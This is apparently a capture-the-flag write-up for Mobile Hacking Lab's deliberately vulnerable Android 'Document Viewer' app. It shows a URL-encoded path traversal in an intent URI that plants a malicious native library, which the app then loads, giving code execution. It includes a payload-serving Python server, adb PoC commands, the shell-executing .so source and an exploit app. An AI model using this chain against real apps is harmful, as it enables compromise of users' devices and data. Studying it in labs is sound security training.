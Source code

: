 ```yaml
---
title:  "Mobile Hacking Lab Document Viewer Writeup"
date:   2024-01-22T16:27:00-0400
categories:
  - writeup
tags:
  - android
  - ctf
---
```



Hello everyone!
In this blog post , I will try to explain my solution steps for [Document Viewer](https://www.mobilehackinglab.com/course/lab-document-viewer-rce) challenge from Mobile Hacking Lab. 

## Static Analysis
Instead of solving challenge on Corellium instance,i downloaded base.apk from lab and solved on my local setup with Genymotion emulator.

When we open the app in emulator, it opens a page with "load pdf" button. When we press the button, it opens the file manager for us to select a pdf file. Let's open it with jadx to understand the app.

![](/assets/images_mhl_documentviewer/manifest.png)

When we examine the manifest file, we see that an intent filter is defined for MainActivity. To properly trigger this activity we need to send intent with http/https or file scheme and VIEW action. 
```bash
# Sample intent
adb shell am start -n com.mobilehackinglab.documentviewer/.MainActivity -a android.intent.action.VIEW -d "http://evil.com
```
But we need to know what happened when this activity triggered. To undestand this, lets analyze MainActivity

![](/assets/images_mhl_documentviewer/mainactivity.png)
 
Inside the onCreate function, 3 method called after setting the view of activity. After that, if `proFeaturesEnabled` boolean is true, `initProFeatures` function will be called and as seen on line 29, `initProFeatures` is loaded from native library.

Let's analyze the functions one by one. I will skip the setLoadButtonListener function because, as the name suggests, in this function, after pressing the button, the path of the selected pdf file is taken, the file is processed and displayed on the screen.

### handleIntent Function

![](/assets/images_mhl_documentviewer/handleIntent.png)

handleIntent function handle the coming intent and after checking the action and uri, sends the uri to CopyFileFromUri function. After copying file from uri, it renders the pdf. So where and how does it copy the file from the uri?

![](/assets/images_mhl_documentviewer/copyFromUri.png)

copyFileFromUri fıunction is responsible for parsing the uri that comes with intent. It takes the last part of url with getLastPathSegment and uses it as filename. If last part is empty, filename will be "download.pdf". After that, we will see the line started with BuildersKt. I didnt write any line of kotlin code before and i searched that method on google. According to [this documentation](https://javadoc.io/doc/org.jetbrains.kotlinx/kotlinx-coroutines-core/1.1.1/kotlinx/coroutines/BuildersKt.html), launch method start a new coroutine without blocking current thread. In documentation, last argument of launch function is the code that will run when coroutine start but in jadx the last arg is null.

![](/assets/images_mhl_documentviewer/coroutine1.png)

As i understand (just guessing) when we created this coroutine, firstly it will set variables with arguments and call the invoke function( overridden [Function2](https://github.com/JetBrains/kotlin/blob/2fdc8b6c147462a09fa770cb8cb3aeffe53f3e9e/libraries/stdlib/jvm/runtime/kotlin/jvm/functions/Functions.kt#L22)). Inside the invoke function, invokeSuspend will be called. (If any kotlin developer is reading this, I would be very happy if he/she could tell me the meaning of this piece of code :D)

![](/assets/images_mhl_documentviewer/coroutine2.png)

invokeSuspend function will download file from given url and save it as `outfile`. 

### loadProLibrary Function

![](/assets/images_mhl_documentviewer/loadprolib.png)

This functioon tries to load a native library named `libdocviewer_pro.so` from `libraryfolder` directory. 
```java
getApplicationContext().getFilesDir() -> /data/data/com.mobilesecuritylab/files
Build.SUPPORTED_ABIS[0] -> x86_64 (for genymotion vm on my pc)

Final lib path -> "/data/data/com.mobilesecuritylab/files/native-libraries/x86_64/libdocviewer_pro.so"
```
If native library succesfully loaded, `proFeaturesEnabled` boolean will be settled as true. But the problem here is that this app doesn't have any native library inside itself. Because of that when you run the app you will see the error log on logcat. If app can find the native lib, it will call the `initProFeatures` in MainActivity.(İts important for exploitation part :))

## Finding vulnerability

When analyzing the apk we saw that this apk can load pdf files from given url and after that trying to load a library file that does not exist. If we can make the application load the library file we wrote maybe we can code execution with this application's permissions. To achive this code execution we need to find directory traversal to write our file the native lib directory. 

Lets get back to our "intent" :) I wrote a small python script to serve my testing files on localhost. It will return the pdf file to coming requests.

```py
#proudly stolen from : https://stackoverflow.com/questions/46105356/serve-a-file-from-pythons-http-server-correct-response-with-a-file
from http.server import BaseHTTPRequestHandler, HTTPServer
class MyHackyServer(BaseHTTPRequestHandler):

    def do_GET(self):
        self.send_response(200)
        self.end_headers()
        exploit_file = open('testo.pdf', 'rb')
        self.wfile.write(exploit_file.read())
        self.end_headers()


myServer = HTTPServer(('localhost', 1234), MyHackyServer)
myServer.serve_forever()

```
```bash
adb shell am start -n com.mobilehackinglab.documentviewer/.MainActivity -a android.intent.action.VIEW -d "http://10.0.3.2:1234/testo.pdf"

# 10.0.3.2 is the address of localhost of host machine for genymotion, if you are using Android Studio emulators, this ip will be 10.0.2.2 for you.
```
[![](https://img.youtube.com/vi/5nOURaJbibQ/hqdefault.jpg)](https://www.youtube.com/watch?v=5nOURaJbibQ)

As you can see in video, app gets the url from our intent and download our test file from server. After that it saves this file as "testo.pdf" in Downloads folder and render the file. For writing file to another directory we can try path traversal with `../` characters.  

![](/assets/images_mhl_documentviewer/lfi_test_1.png)

I gave the app's local storage to save the file but it saved the file in the Downloads folder again. getLastPathSegment fucntion parsed the our uri with `/` chars and file saved with original name. Lets take a look at [source code of getLastPathSegment](https://cs.android.com/android/platform/superproject/main/+/main:frameworks/base/core/java/android/net/Uri.java;l=1076;drc=f5f71ff8fd1c5b1b39a28cb1585c7a0a097aa1c8;bpv=0;bpt=1)

![](/assets/images_mhl_documentviewer/getlastpathsegment.png)

It gets the segments of uri and returns the last one. For getting segments it calls [getPathSegments function](https://cs.android.com/android/platform/superproject/main/+/main:frameworks/base/core/java/android/net/Uri.java;l=2191;drc=f5f71ff8fd1c5b1b39a28cb1585c7a0a097aa1c8).

![](/assets/images_mhl_documentviewer/getPathSegments.png)

This function gets uri and parses with `/` characters and decode the strings between slashes. As i understand, the decoding process applied one time for every segment. İf we give our malicious url as url-encoded, this function will split our url from the slash and return the encoded part  as last segment after decoding. Lets send intent with encoded url.

```bash
adb shell am start -n com.mobilehackinglab.documentviewer/.MainActivity -a android.intent.action.VIEW -d "http://10.0.3.2:1234/..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fdata%2Fdata%2Fcom.mobilehackinglab.documentviewer%2Ffiles%2Ftest.pdf"

# the encoded part after the port number will be decoded and returned as last segment
```
![](/assets/images_mhl_documentviewer/lfi_test_2.png)

Yes! It worked. We can write file into the application directory. Next step is preparing a proper library file and write into a native lib folder.

For creating my native library, i created a c++ project with same name of target app in Android Studio. After that i changed the given c++ file little bit and added my hacky `initProFeatures` function. During this steps,  i watched [Laurie's video](https://www.youtube.com/watch?v=87uMi7L-3Hc)(thx a lot for great videos) about translating java code into native code on Android. Here is my native lib code:
```c++
#include <jni.h>
#include <string>

extern "C" JNIEXPORT jstring JNICALL
Java_com_mobilehackinglab_documentviewer_MainActivity_stringFromJNI(
        JNIEnv* env,
        jobject /* this */) {
    std::string hello = "Hello from C++";
    return env->NewStringUTF(hello.c_str());
}


extern "C" JNIEXPORT void JNICALL
Java_com_mobilehackinglab_documentviewer_MainActivity_initProFeatures(JNIEnv* env, jobject /* this */) {
    system("echo \"hacked by sh4d0wless\" > /data/data/com.mobilehackinglab.documentviewer/hacked.txt");
}
```
After building apk, i extracted the x86_64 version of this lib file with apktool and putted it to directory that my python server running.(Also changed the file name inside python script with libdocviewer_pro.so)

Here is the PoC:

```bash
adb shell am start -n com.mobilehackinglab.documentviewer/.MainActivity -a android.intent.action.VIEW -d "http://10.0.3.2:1234/..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fdata%2Fdata%2Fcom.mobilehackinglab.documentviewer%2Ffiles%2Fnative-libraries%2Fx86_64%2Flibdocviewer_pro.so"
```

[![](https://img.youtube.com/vi/rpgpSyrlfzo/hqdefault.jpg)](https://youtu.be/rpgpSyrlfzo)

It works :)

If you want to create an app for exploitation instead of adb commands, here is the code that i wrote:
```java
package com.mobilehackinglab.dv_exploit;
import androidx.appcompat.app.AppCompatActivity;
import android.content.Intent;
import android.net.Uri;
import android.os.Bundle;

public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);
        Uri uri = Uri.parse("http://10.0.3.2:1234/..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fdata%2Fdata%2Fcom.mobilehackinglab.documentviewer%2Ffiles%2Fnative-libraries%2Fx86_64%2Flibdocviewer_pro.so");
        Intent intent = new Intent(Intent.ACTION_VIEW);
        intent.setClassName("com.mobilehackinglab.documentviewer","com.mobilehackinglab.documentviewer.MainActivity");
        intent.setData(uri);
        startActivity(intent);
    }
}
```
And here is the PoC video:

[![](https://img.youtube.com/vi/LJ0DPDG4Tw0/hqdefault.jpg)](https://youtu.be/LJ0DPDG4Tw0)


NOTES:
- App trigger the loading of the native lib on start, because of that we need to run the app for second time to trigger our exploit code.
- We dont have to write our code inside the `initProFeatures` function. We can use the JNI_OnLoad fucntion to trigger our shell commands. Because JNI_OnLoad called when library loaded([reference](https://docs.oracle.com/javase/8/docs/technotes/guides/jni/spec/invocation.html#JNJI_OnLoad)). I learned this information from [this](https://youtu.be/GQ7bwUOmVqk?list=PLwP4ObPL5GY_dBI_lSwBzKM4zxP4mWSqK&t=2447) twitch stream. 

Thanks for reading :) See you in next writeup!
